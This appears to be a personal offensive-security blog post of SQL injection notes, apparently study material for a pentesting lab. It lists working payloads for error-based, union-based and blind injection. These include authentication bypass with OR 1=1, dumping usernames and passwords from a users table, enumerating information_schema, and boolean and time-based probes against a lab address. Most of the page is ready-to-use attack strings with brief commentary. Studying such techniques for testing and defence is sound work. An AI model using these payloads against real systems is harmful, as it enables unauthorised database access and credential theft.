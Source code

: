 ```yaml
---
layout: post
title: SQL Injection
titledate: 09/01/23
tags: ["infosec","offsec", "sql"]
---
```


<h4>Error based SQLi</h4>

sqli can lead to auth bypass via info disclosure

in MySQL

    SELECT * FROM users WHERE user_name= 'admin' OR 1=1 --

bc the or statement will always return true, the user_name will fetch the first user

if we test a form with 

    admin'

this may return a mysql error msg informing us that we can interact with the db

auth bypass

below we can try to terminate the mysql statement early

    admin' OR 1=1 -- //

mysql version

    ' or 1=1 in (select @@version) -- //

retrieve users table

    ' OR 1=1 in (SELECT * FROM users) -- //

password of all users

    ' or 1=1 in (SELECT password FROM users) -- //

password from 1 user

    ' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //

<h4>Union based sqli</h4>

first we need to get the exact number of columns in the table

    ' ORDER BY 1-- //

we keep incrementing this until we get an error msg

    ' ORDER BY 6-- //

now we can enumerate the db via a union query for each column that is present and 2 we leave null

    %' UNION SELECT database(), user(), @@version, null, null -- //

if we do not get the expected output from our database for the table columns we can try shifting them over

    ' UNION SELECT null, null, database(), user(), @@version  -- //

let's see if any other tables are present in our db by enumerating the information_schema

    ' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() -- //

this will present us with table name, column name, and database name

if we want to dump the information from the users table

    ' UNION SELECT null, username, password, description, null FROM users -- //

<h4>Blind SQL Injection</h4>

this type of attack is necessary when query results are not returned so we rely on boolean- or time-based logic

to test for boolean sqli

    http://192.168.50.50/blindsqli.php?user=admin' AND 1=1 -- //

This will only return the user if true and it exists in the db

using a time based query

    http://192.168.50.50/blindsqli.php?user=admin' AND IF (1=1, sleep(3),'false') -- //

